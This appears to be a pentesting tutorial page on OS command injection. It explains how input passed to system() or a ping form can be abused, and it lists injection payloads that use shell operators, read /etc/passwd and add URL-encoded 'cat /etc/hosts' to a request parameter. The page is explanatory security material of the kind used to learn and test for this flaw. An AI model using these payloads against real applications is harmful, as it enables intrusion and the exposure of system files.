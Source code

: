```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# OS Command injection

Allow to execute arbitrary system commands on a host operating system via a vulnerable application. Normally happens when a web application takes a user-supplied input and passes it directly to a shell interpreter.

We can find a typical example of this vulnerability as follows:

* When internally using functions like _system_ or _shell\_exec_ which pass input to an internal command interpreter

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with a command
curl -X POST http://url/? -d "cmd=whoami"
#If being handled by system(), it will respond with the output of the command, letting us we can talk to the internal shell
```
{% endcode %}

***

* In some cases, the application will receive input and redirect it to an internal command executed in the server shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#A form receives the IP as input and executes the ping command
8.8.8.8
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Ww see that it works like the following command inside
ping $input
```
{% endcode %}

***

* We can abuse this input to add other commands using the command operators

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***

* Sometimes it could be sanitized to detect these symbols, so to avoid detection, we can combine operators and commands into a single string, which helps bypass filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
8.8.8.8|cat /etc/passwd
```
{% endcode %}

***

* This could also work on request parameters that are passed to an internal OS command

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>#Example, the parameters are pass to and 
</strong><strong>Content-Type: application/x-www-form-urlencoded
</strong>Id=15&#x26;name=a

# We could concatenate commands
Content-Type: application/x-www-form-urlencoded
Id=15&#x26;name=a%26cat%20%2fetc%2fhosts #Concatenating |cat /etc/hosts
</code></pre>
